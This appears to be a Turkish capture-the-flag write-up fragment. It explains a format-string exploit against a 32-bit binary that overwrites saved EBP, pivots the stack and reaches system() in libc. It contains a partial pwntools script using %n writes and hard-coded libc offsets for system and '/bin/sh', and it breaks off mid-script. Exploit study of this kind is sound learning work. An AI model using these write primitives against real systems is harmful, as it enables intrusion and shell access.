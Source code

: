 0x804a060 adresine yazıyoruz read ile. 200 karakter okuyor yani: 

0x804a060+0xc8 = 804A128 son 4 byte “AAA\n” olur o yüzden önceki adresi kullanırız.

```
EBP      | → 0x804a124 →  0x804a44c
EBP - 4  | → 0x804a120 →  0x804a448
```

Şeklinde ayarlarsak:

```shell
 8048593:    8b 4d fc                 mov    ecx,DWORD PTR [ebp-0x4]
 8048596:    c9                       leave  
 8048597:    8d 61 fc                 lea    esp,[ecx-0x4]
```

ECX 0x804a448 olur sonra ise 0x804a448- 0x4 yani 0x804a444 olur ve orda ise system adresi bizi beklemektedir. 

Herşeyi bir araya toplayalım:

NOT: 0x804a124 bu adresi tek başına yazabiliriz ama libc adresi f7 ile başlıyor yani nerdeyse iki katı o yüzden libc adreslerini iki parçaya ayırırız. Mesela 0x804a444 adresine ilk parçası 0x804a446 adresine ise ikinci parçayı yazdırırız.

```python
from pwn import *
import os
import posix
from struct import *
import time


def write(p, to, adress):

    makeAddress = "%"+str(to)+"u%6$n" + "A"*50
    p.sendline(makeAddress)
    p.clean()

    writeAddress = "%"+str(adress)+"u%10$n" + "A"*50
    p.sendline(writeAddress)
    p.clean()

def writeToEBP(p, to, address):

    hexS = hex(address)[2:]
    firstPlace = int("0x" + hexS[:4], 16)
    secondPlace = int("0x" + hexS[4:], 16)

    print "        Address : " + hex(to)
    write(p, to, secondPlace)
    write(p, to+2, firstPlace)


def modifyEBP(p):

    lastEBP = "%134521124u%6$n" + "A"*50 # 0x804a124
    p.sendline(lastEBP)
    time.sleep(13)
    p.clean()

offset_system = 0x0003d870
offset_str_bin_sh = 0x17c968
offset_exit = 0x00030c30
offset___libc_start_main = 0x000198b0


```